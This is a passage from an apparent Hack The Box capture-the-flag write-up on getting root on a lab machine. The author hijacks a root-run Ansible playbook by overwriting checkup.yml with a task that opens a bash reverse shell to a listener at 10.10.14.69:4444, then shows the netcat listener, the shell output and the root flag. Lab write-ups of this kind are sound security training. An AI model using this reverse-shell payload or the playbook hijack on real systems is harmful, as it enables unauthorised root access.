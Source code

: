 Seems `ansible-playbook` is using it on the `root` user. I use an [Ansible Playbook Revshell](https://gist.github.com/Reelix/32ccf1baaa3066654a460265fca53960) to get the `root` flag by editing the `checkup.yml`.

I setup my listener: `nc -lvnp 4444`


Create my payload:
```yml
- name: Check Stability of Clouded File Sharing Service
  hosts: localhost
  gather_facts: false

  tasks:
    - name: rev
      shell: bash -c 'bash -i >& /dev/tcp/10.10.14.69/4444 0>&1'
    - name: Check if the Clouded File Sharing service is running and if the AWS connection is stable
      debug:
        msg: "Checking if Clouded File Sharing service is running."
    # NOTE to Yuki - Add checks for verifying the above tasks
```

Overwrite the original:
```bash
$ chmod 0644 checkup.yml
$ mv checkup.yml /opt/infra-setup/checkup.yml
```

And eventually:
```bash
connect to [10.10.14.69] from (UNKNOWN) [10.129.249.56] 49194
bash: cannot set terminal process group (3977): Inappropriate ioctl for device
bash: no job control in this shell
root@clouded:/opt/infra-setup# cat /root/root.txt
cat /root/root.txt
HTB{H@ZY_71ME5_AH3AD}
```

Root Flag: `HTB{H@ZY_71ME5_AH3AD}`